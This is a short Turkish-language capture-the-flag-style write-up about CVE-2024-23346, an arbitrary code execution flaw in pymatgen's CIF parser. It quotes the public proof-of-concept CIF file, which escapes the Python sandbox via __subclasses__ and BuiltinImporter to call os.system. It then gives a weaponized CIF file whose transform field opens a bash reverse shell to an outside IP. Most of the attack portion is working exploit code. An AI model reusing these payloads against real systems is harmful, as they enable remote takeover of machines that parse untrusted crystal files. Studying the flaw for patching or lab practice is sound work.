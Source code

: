 Bu dosya bir kristalin geometrik ve kimyasal yapısını açıklamaktadır.

---

### CVE-2024-23346

Bu CIF dosyasıyla ilgili CVE'leri Google'da aradıktan sonra şunu buldum 👇

* Pymatgen Kütüphanesinde Kritik Güvenlik Açığı (CVE-2024-23346) -[ vsociety (vicarius.io)](https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346)
* Kötü niyetle hazırlanmış bir JonesFaithfulTransformation transformation_string ayrıştırılırken keyfi kod yürütme - [Tavsiye - materialsproject/pymatgen (github.com)](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)


Github'da verilen Poc prototipi şu şekildedir

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"
 
loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]
 
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'
 
 
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Payload, aşağıdaki `_space_group_magn` bölümü olduğundan, bu PoC'ye (Proof of Concept) dayanarak bir ters shell oluşturun (dış katmanda tek tırnaklar bulunduğu için tek tırnakların kaçışına dikkat edin).

```
[root@kali] /home/kali/Downloads  
❯ cat example.cif 
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
 
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.xx.xx/100 0>&1\'");0,0,0'
 
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
